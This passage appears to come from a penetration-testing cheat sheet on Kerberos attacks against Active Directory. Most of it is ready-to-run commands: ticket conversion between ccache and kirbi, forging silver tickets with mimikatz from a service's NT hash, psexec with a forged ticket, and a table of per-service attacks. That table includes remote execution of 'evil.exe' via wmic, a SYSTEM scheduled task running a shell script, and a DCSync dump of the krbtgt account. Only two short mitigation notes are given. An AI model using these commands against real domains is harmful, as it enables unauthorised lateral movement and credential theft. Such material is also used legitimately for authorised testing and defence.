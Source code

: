 If you need to swap ticket between Windows and Linux, you need to convert them with `ticket_converter` or `kekeo`.

```powershell
root@kali:ticket_converter$ python ticket_converter.py velociraptor.ccache velociraptor.kirbi
Converting ccache => kirbi
root@kali:ticket_converter$ python ticket_converter.py velociraptor.kirbi velociraptor.ccache
Converting kirbi => ccache
```


Mitigations:
* Hard to detect because they are legit TGT tickets
* Mimikatz generate a golden ticket with a life-span of 10 years

### Pass-the-Ticket Silver Tickets

Forging a TGS require machine account password (key) or NTLM hash of the service account.

```powershell
# Create a ticket for the service
mimikatz $ kerberos::golden /user:USERNAME /domain:DOMAIN.FQDN /sid:DOMAIN-SID /target:TARGET-HOST.DOMAIN.FQDN /rc4:TARGET-MACHINE-NT-HASH /service:SERVICE

# Examples
mimikatz $ /kerberos::golden /domain:adsec.local /user:ANY /sid:S-1-5-21-1423455951-1752654185-1824483205 /rc4:ceaxxxxxxxxxxxxxxxxxxxxxxxxxxxxx /target:DESKTOP-01.adsec.local /service:cifs /ptt
mimikatz $ kerberos::golden /domain:jurassic.park /sid:S-1-5-21-1339291983-1349129144-367733775 /rc4:b18b4b218eccad1c223306ea1916885f /user:stegosaurus /service:cifs /target:labwws02.jurassic.park

# Then use the same steps as a Golden ticket
mimikatz $ misc::convert ccache ticket.kirbi

root@kali:/tmp$ export KRB5CCNAME=/home/user/ticket.ccache
root@kali:/tmp$ ./psexec.py -k -no-pass -dc-ip 192.168.1.1 AD/administrator@192.168.1.100 
```

Interesting services to target with a silver ticket :

| Service Type                                | Service Silver Tickets | Attack |
|---------------------------------------------|------------------------|--------|
| WMI                                         | HOST + RPCSS           | `wmic.exe /authority:"kerberos:DOMAIN\DC01" /node:"DC01" process call create "cmd /c evil.exe"`     |
| PowerShell Remoting                         | HTTP + wsman           | `New-PSSESSION -NAME PSC -ComputerName DC01; Enter-PSSession -Name PSC` |
| WinRM                                       | HTTP + wsman           | `New-PSSESSION -NAME PSC -ComputerName DC01; Enter-PSSession -Name PSC` |
| Scheduled Tasks                             | HOST                   | `schtasks /create /s dc01 /SC WEEKLY /RU "NT Authority\System" /IN "SCOM Agent Health Check" /IR "C:/shell.ps1"` |
| Windows File Share (CIFS)                   | CIFS                   | `dir \\dc01\c$` |
| LDAP operations including Mimikatz DCSync   | LDAP                   | `lsadump::dcsync /dc:dc01 /domain:domain.local /user:krbtgt` |
| Windows Remote Server Administration Tools  | RPCSS   + LDAP  + CIFS | /      |


Mitigations:
* Set the attribute "Account is Sensitive and Cannot be Delegated" to prevent lateral movement with the generated ticket.
